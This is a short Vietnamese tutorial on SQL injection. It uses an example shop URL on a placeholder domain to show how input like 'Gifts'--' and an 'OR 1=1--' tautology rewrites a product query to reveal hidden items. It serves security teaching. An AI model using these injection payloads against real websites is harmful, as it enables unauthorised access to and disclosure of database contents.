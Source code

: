 ![](./img_sql/1.png)

## **Retrieving hidden data ( Truy xuất dữ liệu ẩn )** ##

- Hãy xem xét một ứng dụng mua sắm hiển thị các sản phẩm trong các danh mục khác nhau. Khi người dùng nhấp vào danh mục Quà tặng, trình duyệt của họ sẽ yêu cầu URL:

```javascript
    https://insecure-website.com/products?category=Gifts
```

- Điều này khiến ứng dụng tạo một truy vấn SQL để truy xuất thông tin chi tiết về các sản phẩm có liên quan từ cơ sở dữ liệu:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

- Ứng dụng không thực hiện bất kỳ biện pháp bảo vệ nào chống lại các cuộc tấn công SQL injection, vì vậy kẻ tấn công có thể tạo ra một cuộc tấn công như:

```js
https://insecure-website.com/products?category=Gifts'--
```

```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

OR

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```
